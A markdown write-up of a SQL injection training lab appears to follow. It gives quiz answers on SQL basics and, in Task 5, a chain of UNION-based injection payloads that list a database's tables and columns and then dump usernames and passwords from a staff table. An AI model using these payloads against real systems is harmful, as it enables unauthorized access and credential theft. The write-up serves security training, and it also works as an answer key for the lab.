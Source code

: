 # SQL Injection

Learn how to detect and exploit SQL Injection vulnerabilities.

Nov 23, 2021

#### `Task 1: Brief`
##### - What does SQL stand for?
	- Structured Query Language
	
#### `Task 2: What is a Database?`
##### - What is the acronym for the software that controls a database?
	- DBMS
	
##### - What is the name of the grid-like structure which holds the data?
	- Table
	
#### `Task 3: What is SQL?`
##### - What SQL statement is used to retrieve data?
	- SELECT
	
##### - What SQL clause can be used to retrieve data from multiple tables?
	- UNION
	
#####- What SQL statement is used to add data?
	- INSERT

#### `Task 4: What is SQL Injection?`
##### - What character signifies the end of an SQL query?
	- ;

#### `Task 5: In-Band SQLi?`
Deploy the machine, then use the given commands by inserting it next to the last parameter.
- This will give you the database, then use the next one 
```
0 UNION SELECT 1,2,database()
```
- This will show the different table name in the sqli_one database
```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
- This will show you the diffent column name in the table
```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
- This will display the contents of that column
```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
By doing the steps above you will find the username and password, then you can proceed inputting it in the login form.


